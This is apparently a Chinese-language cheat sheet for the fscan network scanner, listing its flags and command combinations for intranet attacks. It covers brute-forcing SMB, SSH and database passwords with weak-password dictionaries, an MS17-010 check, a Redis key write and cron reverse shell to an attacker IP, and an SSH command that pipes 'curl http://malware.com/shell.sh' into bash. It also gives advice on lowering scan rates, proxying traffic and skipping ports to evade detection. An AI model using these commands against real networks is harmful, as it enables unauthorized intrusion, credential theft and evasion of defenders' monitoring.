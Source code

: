 # fscan
基本命令,不在多说,展示一些组合
  ```
  -c string
        ssh命令执行
  -cookie string
        设置cookie
  -debug int
        多久没响应,就打印当前进度(default 60)
  -domain string
        smb爆破模块时,设置域名
  -h string
        目标ip: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        读取文件中的目标
  -hn string
        扫描时,要跳过的ip: -hn 192.168.1.1/24
  -m string
        设置扫描模式: -m ssh (default "all")
  -no
        扫描结果不保存到文件中
  -nobr
        跳过sql、ftp、ssh等的密码爆破
  -nopoc
        跳过web poc扫描
  -np
        跳过存活探测
  -num int
        web poc 发包速率  (default 20)
  -o string
        扫描结果保存到哪 (default "result.txt")
  -p string
        设置扫描的端口: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,139,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017")
  -pa string
        新增需要扫描的端口,-pa 3389 (会在原有端口列表基础上,新增该端口)
  -path string
        fcgi、smb romote file path
  -ping
        使用ping代替icmp进行存活探测
  -pn string
        扫描时要跳过的端口,as: -pn 445
  -pocname string
        指定web poc的模糊名字, -pocname weblogic
  -proxy string
        设置代理, -proxy http://127.0.0.1:8080
  -user string
        指定爆破时的用户名
  -userf string
        指定爆破时的用户名文件
  -pwd string
        指定爆破时的密码
  -pwdf string
        指定爆破时的密码文件
  -rf string
        指定redis写公钥用模块的文件 (as: -rf id_rsa.pub)
  -rs string
        redis计划任务反弹shell的ip端口 (as: -rs 192.168.1.1:6666)
  -silent
        静默扫描,适合cs扫描时不回显
  -sshkey string
        ssh连接时,指定ssh私钥
  -t int
        扫描线程 (default 600)
  -time int
        端口扫描超时时间 (default 3)
  -u string
        指定Url扫描
  -uf string
        指定Url文件扫描
  -wt int
        web访问超时时间 (default 5)
  ```

应掌握的一些组合:
```
fscan -h 192.168.1.1/24 -np -nopoc -no
```
作用：跳过存活探测、POC扫描和文件保存，快速扫描存活主机及开放端口
​参数解析：
-np：关闭ICMP存活检测（直接扫描所有IP）
-nopoc：跳过Web漏洞扫描
-no：不保存结果文件

-----------------------------------------------------------------------
```
fscan -h 10.0.0.0/16 -np -nopoc -no -t 500
```
作用：10秒级完成B段存活主机和开放端口探测
​参数解析：
-np：跳过ICMP存活检测（强制扫描所有IP）
-nopoc：禁用Web漏洞扫描
-t 500：高线程加速扫描
​输出：生成包含开放端口、基础服务类型的结果文件 result.txt

-----------------------------------------------------------------------

```
fscan -h 192.168.1.1/24 -p 80,443,8080 -wt 10
```
作用：针对Web服务进行深度指纹识别（CMS框架、中间件版本）
​扩展：
配合 -pocpath ./custom_poc 加载自定义漏洞检测规则

-----------------------------------------------------------------------

```
fscan -h 172.16.1.1-200 -m smb,ms17010 -pwd Admin@123  
```
​场景：
检测永恒之蓝漏洞（ms17010）
碰撞SMB弱口令（默认账号如administrator）

-----------------------------------------------------------------------

```
fscan -hf db_ips.txt -m mssql,mysql -userf sa_users.txt -pwdf top100_pass.txt  
```
使用行业弱口令TOP100字典（如 Admin123、root@123）

-----------------------------------------------------------------------

```
fscan -h 10.10.1.1/24 -rf ~/.ssh/id_rsa.pub -rs 192.168.5.1:6666  
```
作用：
写入SSH公钥获取服务器权限（-rf）
通过计划任务反弹Shell（-rs）

-----------------------------------------------------------------------

```
fscan -h 192.168.1.100 -m ssh -c "curl http://malware.com/shell.sh | bash"  =
```
SSH爆破后执行命令

-----------------------------------------------------------------------

```
fscan -h 10.10.1.1/24 -socks5 127.0.0.1:1080 -silent
```
​作用：结合代理工具（如EarthWorm）隐藏扫描流量，静默模式减少日志记录

-----------------------------------------------------------------------

```
fscan -h 192.168.1.1/24 -t 100 -num 10
```

作用：降低线程数（-t 100）和POC发包速率（-num 10），减少触发告警的概率,规避防火墙检测

-----------------------------------------------------------------------

```
fscan -u http://target.com -pocname weblogic -proxy http://127.0.0.1:8080
```
作用：针对特定Web服务（如WebLogic）加载POC检测漏洞，并通过代理调试流量

-----------------------------------------------------------------------

```
fscan -h 10.0.0.1/24 -domain corp.local -m smb -pwd P@ssw0rd
```
作用：指定域环境（-domain）进行SMB密码碰撞，快速定位域管账户







-m	ssh,smb,ms17010	多模块联合扫描
-pa	-pa 3389,5985	追加扫描RDP、WinRM端口
-pn	-pn 445	跳过高危端口规避防守方监控
-path	-path /etc/passwd	指定文件读取路径（如FCGI漏洞）
-sshkey	-sshkey ~/.ssh/id_rsa	使用密钥登录SSH
